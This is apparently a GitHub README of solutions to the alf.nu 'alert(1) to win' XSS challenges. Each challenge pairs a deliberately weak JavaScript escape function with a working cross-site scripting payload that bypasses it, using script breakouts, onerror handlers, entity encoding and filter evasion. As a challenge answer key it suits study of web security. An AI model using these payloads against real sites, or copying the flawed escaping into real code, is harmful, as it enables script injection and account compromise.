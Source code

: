 # alf.nu

> alert(1) to win
 
## Challenges
- [Warmup](#warmup)
- [Adobe](#adobe)
- [JSON](#json)
- [Markdown](#markdown)
- [Skandia](#skandia)
- [JSON2](#json2)


## Testing table view

|Challenge|Task|Solution|
|---------|----|--------|
|Warmup|```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```|```
",alert(1),"
```|

## Warmup

- Task

```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

- Solution

```
",alert(1),"
```

## Adobe

- Task

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
\");alert(1)//
```

## JSON

- Task

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</script><script>alert(1)//
```

## Markdown

- Task

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```
[[x|http://onerror=javascript:alert(1)//]]
```

## Skandia

- Task

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

## JSON2

- Task

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```
